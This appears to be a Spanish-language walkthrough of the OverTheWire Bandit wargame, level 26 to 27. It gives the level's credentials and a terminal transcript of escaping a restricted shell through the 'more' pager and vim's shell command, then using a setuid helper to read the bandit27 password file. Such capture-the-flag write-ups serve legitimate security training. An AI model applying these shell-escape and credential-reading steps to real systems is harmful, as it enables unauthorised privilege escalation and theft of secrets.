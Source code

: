 # Level 26 - 27
## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso al nivel
```bash
Usuario: bandit26
Contraseña: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
## Solución
```bash
Pass siguiente lvl: YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
----------------------------------------
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)
v
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
"~/text.txt" [readonly] 6L, 258B
:set shell=/bin/bash
:shell
[No write since last change]
bandit26@bandit:~$ bandit26@bandit:~$ ls
bandit27-do text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
bandit26@bandit:~$ exit
:qa!
q
```
## Notas Adicionales

| Comando  | Descripción | 
|------------|--------------|

## Referencias 
